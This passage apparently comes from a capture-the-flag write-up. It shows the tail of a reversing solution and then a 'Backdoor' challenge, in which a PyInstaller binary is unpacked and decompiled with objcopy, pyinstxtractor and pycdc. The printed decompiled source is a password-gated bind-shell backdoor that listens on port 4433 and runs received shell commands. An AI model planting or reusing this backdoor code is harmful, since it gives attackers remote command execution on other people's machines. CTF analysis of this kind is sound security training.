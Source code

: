 local_43 = 0x68;
local_42 = 0x75;
local_41 = 0x6d;
local_40 = 0x34;
local_3f = 0x6e;
local_3e = 0x35;
local_3d = 0;
iVar1 = strcmp(&flag,user_input + 1);
```

Due to how these are stored in memory, this will actually create a string on the stack, decoding the hex from each variable, top to bottom we get the flag.
`CHTB{3xtr4t3rR3stR14L5_VS_hum4n5}`

##

## Backdoor

Solved By: firedank

We can first try and run strings on the binary.
```
_ssl.cpython-38-x86_64-linux-gnu.so
```
I see some python stuff. That makes me think this is a compiled python binary.
we first dump the pydata via obj-copy:
```
objcopy --dump-section pydata=pydata.dump bd
```

We can then use pyinstxtractor to extract the python bytecode from the dump:
```
python3 pyinstxtractor/pyinstxtractor.py pydata.dump
[+] Processing pydata.dump
[+] Successfully extracted pyinstaller archive: pydata.dump
```
We can now use a python decompiler on the pyc files within the extracted directory. Inside the extracted directory we find the bytecode for bd.py in bd.pyc. We can use decompyle++: https://github.com/zrax/pycdc to decompile this bytecode into the python sourcecode:
```python
pycdc.exe bd.pyc

import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
(client, addr) = sock.accept()
data = client.recv(32)
if len(data) != 32:
    client.close()
    continue
if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
    client.send(b'Invalid')
    client.close()
    continue
size = client.recv(1)
command = client.recv(int.from_bytes(size, 'little'))
if not command.startswith(b'command:'):
    client.close()
    continue
command = command.replace(b'command:', b'')
output = check_output(command, True, **('shell',))
```
